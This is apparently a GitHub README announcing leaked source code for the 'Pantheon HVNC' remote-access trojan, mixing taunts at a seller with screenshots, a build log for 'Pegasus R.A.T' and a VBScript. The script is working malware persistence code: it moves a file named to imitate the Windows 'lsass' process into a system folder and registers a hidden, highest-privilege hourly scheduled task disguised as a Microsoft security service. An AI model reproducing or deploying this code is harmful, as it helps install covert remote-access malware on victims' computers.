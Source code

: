 # Pantheon-HVNC-V2-Source-leaked

 * here is Pegasus/Pantheon HVNC or skynet?
@TheSkynetCorporation this post is for all peopledon't get scammed by buying shitty HVNC! 
**Updated Time : 18/04/2022**
     **Next Update 24/04/2022**
     
Since guy is seriously distrubed in head, source and recompiled coming in bit


![bahahahahaha](https://user-images.githubusercontent.com/1867768/164896945-cb1327fb-ae23-4dcd-b561-d065b302e98a.png)

hahahahhahahahaahhahaahahahahahhaahahhahahaah

Who is selling what actually?? Dude it's FREE here and always will be now do some gipsy magic and puff off ;)
Damn dude how low you can go?


![resim](https://user-images.githubusercontent.com/103955692/163860298-2adb53c3-f030-43ad-8b0b-66f84201a688.png)
![resim](https://user-images.githubusercontent.com/103955692/163860309-780b3942-cd64-4cec-bb43-931416d5993b.png)

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

I would kindly ask you ***not to bother me*** with questions like it won't compile help.
or if you get that obviuos error like damn resource is missing heeeeelp - simply ***I don't care(especially for statements I can't wait, I want and similar. Feel free to purchase garbage mentioned above or reverse yourself).***
***Im not*** posting this so kids could play hackers, ***nor do I support reversed projects.***
Anyways if one decide to msg me with similar bs, please before you do download [ILSpy](https://github.com/icsharpcode/ILSpy/).
IF one manage to compile it without issues feel free to contact me if not go back to ***Hello world apps.***

▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄

![resim](https://user-images.githubusercontent.com/103955692/163860330-fb515385-55ec-4846-9e17-71684636f900.png)

![Screenshot_1](https://user-images.githubusercontent.com/1867768/164581897-d8b3750c-90e5-49b2-9ea5-35bd7f3d9f98.png)

[Except ones compiled from full source ;)]
https://streamable.com/ghpv5y
```
Build started...
1>------ Build started: Project: Pegasus R.A.T, Configuration: Release Any CPU ------
1>  Pegasus R.A.T -> S:\iPwnNoobPony\Pegasus42\Source\Pegasus R.A.T\bin\Release\Pegasus R.A.T.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========

```
on error resume next
set o=createobject("wscript.shell")
'f=o.ExpandEnvironmentStrings("%appdata%\Pantheon")
f=o.ExpandEnvironmentStrings("%appdata%")
c = "cmd /c md " & f 
'o.run c,0,1
WScript.Sleep(1000)
'c = "cmd /c move " & chr(34) & f & "\..\Isass.exe" & chr(34) & " " & chr(34) & f & chr(34)
c = "cmd /c move " & chr(34) & f & "\Isass.exe" & chr(34) & " " & chr(34) & "C:\windows\syswow64" & chr(34)
o.run c,0,1
'c = "schtasks /create /f /tn " & chr(34) & "OneDrive.{7d01bf11-6e05-4dfd-8936-9366c7d70b4d}" & chr(34)
c = "schtasks /create /f /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34)
c = c & " /sc hourly /rl highest /tr " & chr(34) & "c:\windows\syswow64\Isass.exe" & chr(34)
o.run c,0,1
Wscript.Sleep(2000)
o.run "schtasks /run /tn " & chr(34) & "Microsoft\Windows\Security\SAMService" & chr(34),0,0
```

Keep up the good work ^^


**https://www.pantheon.one/**

